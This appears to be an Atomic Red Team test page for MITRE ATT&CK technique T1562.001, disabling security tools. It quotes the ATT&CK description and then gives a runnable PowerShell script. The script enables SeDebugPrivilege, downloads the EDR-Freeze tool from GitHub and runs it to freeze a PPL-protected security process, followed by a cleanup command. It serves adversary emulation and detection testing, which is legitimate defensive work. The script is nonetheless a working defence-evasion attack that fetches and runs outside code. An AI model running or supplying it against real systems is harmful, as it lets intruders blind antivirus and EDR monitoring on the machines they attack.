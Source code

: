 # T1562.001 - Impair Defenses: Disable or Modify Tools
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/001)
<blockquote>

Adversaries may modify and/or disable security tools to avoid possible detection of their malware/tools and activities. This may take many forms, such as killing security software processes or services, modifying / deleting Registry keys or configuration files so that tools do not operate properly, or other methods to interfere with security tools scanning or reporting information. Adversaries may also disable updates to prevent the latest security patches from reaching tools on victim systems.(Citation: SCADAfence_ransomware)

Adversaries may also tamper with artifacts deployed and utilized by security tools. Security tools may make dynamic changes to system components in order to maintain visibility into specific events. For example, security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Similar to [Indicator Blocking](https://attack.mitre.org/techniques/T1562/006), adversaries may unhook or otherwise modify these features added by tools (especially those that exist in userland or are otherwise potentially accessible to adversaries) to avoid detection.(Citation: OutFlank System Calls)(Citation: MDSec System Calls) Alternatively, they may add new directories to an endpoint detection and response (EDR) tool’s exclusion list, enabling them to hide malicious files via [File/Path Exclusions](https://attack.mitre.org/techniques/T1564/012).(Citation: BlackBerry WhisperGate 2022)(Citation: Google Cloud Threat Intelligence FIN13 2021)

Adversaries may also focus on specific applications such as Sysmon. For example, the “Start” and “Enable” values in <code>HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Microsoft-Windows-Sysmon-Operational</code> may be modified to tamper with and potentially disable Sysmon logging.(Citation: disable_win_evt_logging) 

On network devices, adversaries may attempt to skip digital signature verification checks by altering startup configuration files and effectively disabling firmware verification that typically occurs at boot.(Citation: Fortinet Zero-Day and Custom Malware Used by Suspected Chinese Actor in Espionage Operation)(Citation: Analysis of FG-IR-22-369)

In cloud environments, tools disabled by adversaries may include cloud monitoring agents that report back to services such as AWS CloudWatch or Google Cloud Monitor.

Furthermore, although defensive tools may have anti-tampering mechanisms, adversaries may abuse tools such as legitimate rootkit removal kits to impair and/or disable these tools.(Citation: chasing_avaddon_ransomware)(Citation: dharma_ransomware)(Citation: demystifying_ryuk)(Citation: doppelpaymer_crowdstrike) For example, adversaries have used tools such as GMER to find and shut down hidden processes and antivirus software on infected systems.(Citation: demystifying_ryuk)

Additionally, adversaries may exploit legitimate drivers from anti-virus software to gain access to kernel space (i.e. [Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068)), which may lead to bypassing anti-tampering features.(Citation: avoslocker_ransomware)

</blockquote>


## Tehtris Test - Freeze PPL-protected process with EDR-Freeze
This test utilizes the tool EDR-Freeze, which leverages the native Microsoft binary WerFaultSecure.exe to suspend processes protected by the Protected Process Light mechanism. PPL is a Windows security feature designed to safeguard critical system processes — such as those related to antivirus, credential protection, and system integrity — from tampering or inspection. These processes operate in a restricted environment that prevents access even from administrators or debugging tools, unless the accessing tool is signed and trusted by Microsoft. By using WerFaultSecure.exe, which is inherently trusted by the operating system, EDR-Freeze is able to bypass these restrictions and temporarily freeze PPL-protected processes for analysis or testing purposes.

**Supported Platforms:** Windows


**auto_generated_guid:** cbb2573a-a6ad-4c87-aef8-6e175598559b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| processName | PPL-protected process name to target | string | SecurityHealthService|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# Enable SeDebugPrivilege
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;

public class TokenAdjuster {
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);

    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool LookupPrivilegeValue(string lpSystemName, string lpName, out long lpLuid);

    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool AdjustTokenPrivileges(IntPtr TokenHandle, bool DisableAllPrivileges,
        ref TOKEN_PRIVILEGES NewState, uint BufferLength, IntPtr PreviousState, IntPtr ReturnLength);

    [StructLayout(LayoutKind.Sequential, Pack = 1)]
    public struct TOKEN_PRIVILEGES {
        public int PrivilegeCount;
        public long Luid;
        public int Attributes;
    }

    public const int SE_PRIVILEGE_ENABLED = 0x00000002;
    public const uint TOKEN_ADJUST_PRIVILEGES = 0x0020;
    public const uint TOKEN_QUERY = 0x0008;

    public static bool EnableSeDebugPrivilege() {
        IntPtr hToken;
        if (!OpenProcessToken(System.Diagnostics.Process.GetCurrentProcess().Handle, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, out hToken))
            return false;

        long luid;
        if (!LookupPrivilegeValue(null, "SeDebugPrivilege", out luid))
            return false;

        TOKEN_PRIVILEGES tp = new TOKEN_PRIVILEGES();
        tp.PrivilegeCount = 1;
        tp.Luid = luid;
        tp.Attributes = SE_PRIVILEGE_ENABLED;

        return AdjustTokenPrivileges(hToken, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
    }
}
"@

$result = [TokenAdjuster]::EnableSeDebugPrivilege()
if ($result) {
    Write-Host "SeDebugPrivilege enabled successfully." -ForegroundColor Green
} else {
    Write-Host "Failed to enable SeDebugPrivilege." -ForegroundColor Red
    exit 1
}

# Get basic process info
$process = Get-Process -Name $#{processName} -ErrorAction Stop
$processName = $process.ProcessName
Write-Host "Process Name: $processName)"
Write-Host "PID: $($process.Id)"
        
# Get executable path and user info
$query = "SELECT * FROM Win32_Process WHERE Name = '$processName.exe'"
$wmiProcess = Get-WmiObject -Query $query

$owner = $wmiProcess.GetOwner()
    Write-Host "User: $($owner.Domain)\$($owner.User)"


# Get the folder of the current script
$scriptFolder = Split-Path -Parent $MyInvocation.MyCommand.Definition

# Download latest EDR-Freeze package and extract (force replace)
$downloadUrl = "https://github.com/TwoSevenOneT/EDR-Freeze/releases/download/main/EDR-Freeze_1.0.zip"
$zipPath = Join-Path $scriptFolder "EDR-Freeze_1.0.zip"
Write-Host "Downloading latest EDR-Freeze from $downloadUrl" -ForegroundColor Cyan
try {
    Invoke-WebRequest -Uri $downloadUrl -OutFile $zipPath -UseBasicParsing -ErrorAction Stop
    Write-Host "Download completed: $zipPath" -ForegroundColor Green
    $extractFolder = $scriptFolder
    if (Test-Path $zipPath) {
        Write-Host "Extracting archive to $extractFolder (overwriting existing files)" -ForegroundColor Cyan
        if (Test-Path $extractFolder) {
            # Ensure target exe not locked; attempt to stop any running instance silently
            Get-Process -Name "EDR-Freeze_1.0" -ErrorAction SilentlyContinue | Stop-Process -Force -ErrorAction SilentlyContinue
        }
        Add-Type -AssemblyName System.IO.Compression.FileSystem 2>$null
        # Custom extraction routine (overwrite existing) compatible with .NET Framework (no bool overwrite overload)
        $archive = $null
        try {
            $archive = [System.IO.Compression.ZipFile]::OpenRead($zipPath)
            foreach ($entry in $archive.Entries) {
                if ([string]::IsNullOrWhiteSpace($entry.FullName)) { continue }
                if ($entry.FullName.EndsWith('/')) { # directory entry
                    $dirPath = Join-Path $extractFolder $entry.FullName
                    if (-not (Test-Path $dirPath)) { New-Item -ItemType Directory -Path $dirPath -Force | Out-Null }
                    continue
                }
                $destPath = Join-Path $extractFolder $entry.FullName
                $destDir = Split-Path $destPath -Parent
                if (-not (Test-Path $destDir)) { New-Item -ItemType Directory -Path $destDir -Force | Out-Null }
                if (Test-Path $destPath) { Remove-Item -Path $destPath -Force -ErrorAction SilentlyContinue }
                try {
                    # Use static extension method (PowerShell 5.1 compatible)
                    [System.IO.Compression.ZipFileExtensions]::ExtractToFile($entry, $destPath, $false)
                } catch {
                    Write-Host "Failed to extract entry $($entry.FullName): $_" -ForegroundColor Yellow
                }
            }
            Write-Host "Extraction completed." -ForegroundColor Green
        } finally {
            if ($archive) { $archive.Dispose() }
        }
    }
} catch {
    Write-Host "Failed to download or extract EDR-Freeze: $_" -ForegroundColor Red
}

# Wait 15s before putting targeted process before putting it in the comma
Write-Host "Waiting 15s before putting $processName in the comma" -ForegroundColor Yellow
Start-Sleep -Seconds 5
Write-Host "Waiting 10s before putting $processName in the comma" -ForegroundColor Yellow
Start-Sleep -Seconds 5
Write-Host "Waiting 5s before putting $processName in the comma" -ForegroundColor Yellow
Start-Sleep -Seconds 3
Write-Host "Waiting 2s before putting $processName in the comma" -ForegroundColor Yellow
Start-Sleep -Seconds 2

# Put targeted  process in the comma for 15s
# Discover the EDR-Freeze executable dynamically (pick most recent if multiple)
$edrFreezeExeName = Get-ChildItem -Path $scriptFolder -Filter 'EDR-Freeze_*.exe' -ErrorAction SilentlyContinue |
    Sort-Object LastWriteTime -Descending |
    Select-Object -First 1 -ExpandProperty Name
if (-not $edrFreezeExeName) {
    Write-Host "No EDR-Freeze executable (EDR-Freeze_*.exe) found in $scriptFolder" -ForegroundColor Red
    exit 1
}

$edrFreezeExe = Join-Path $scriptFolder $edrFreezeExeName
Write-Host "Using EDR-Freeze executable: $edrFreezeExeName" -ForegroundColor Cyan
Write-Host "$processName putted in the comma for 15s, by targetting Process ID $($htaProcess.Id)" -ForegroundColor Yellow
Start-Process -FilePath $edrFreezeExe -ArgumentList ("$($process.Id) 15000") | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-Item -Path $edrFreezeExe -Force -erroraction silentlycontinue
Write-Output "File deleted: $edrFreezeExe"
```
